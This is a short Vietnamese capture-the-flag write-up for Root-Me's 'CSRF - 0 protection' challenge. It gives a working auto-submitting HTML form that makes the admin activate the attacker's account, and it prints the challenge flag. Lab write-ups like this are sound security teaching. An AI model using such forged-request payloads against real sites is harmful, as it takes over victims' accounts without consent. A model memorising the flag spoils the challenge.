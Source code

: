 # [CSRF - 0 protection](https://www.root-me.org/en/Challenges/Web-Client/CSRF-0-protection)

## Solutions

Tạo tài khoản xong đăng nhập

Tại trang profile có nút submit nhưng normal user không ấn được, copy lại form, xóa những cái không quan trọng đi:

``` html
<form action="?action=profile" method="post" enctype="multipart/form-data">
  <input type="text" name="username" value="a">
  <input type="checkbox" name="status" disabled >
  <button type="submit">Submit</button>
  </form>
```

Thêm script và thay đổi một số chỗ

``` html
<form action="http://challenge01.root-me.org/web-client/ch22/?action=profile" method="post" enctype="multipart/form-data" id="form_id">
  <input type="text" name="username" value="username">
  <input type="checkbox" name="status" checked >
  <button type="submit">Submit</button>
  </form>
<script>document.getElementById("form_id").submit();</script>
```

Gửi cho admin đọc, chờ một lúc rồi vào trang private lấy được flag.

Flag: `Csrf_Fr33style-L3v3l1!`

## References

- <https://repository.root-me.org/Exploitation%20-%20Web/EN%20-%20CSRF:%20Attack%20and%20defense.pdf?_gl=1>
- <https://repository.root-me.org/Exploitation%20-%20Web/EN%20-%20OWASP%20Cross-site%20Request%20Forgery%20CSRF.pdf?_gl=1>
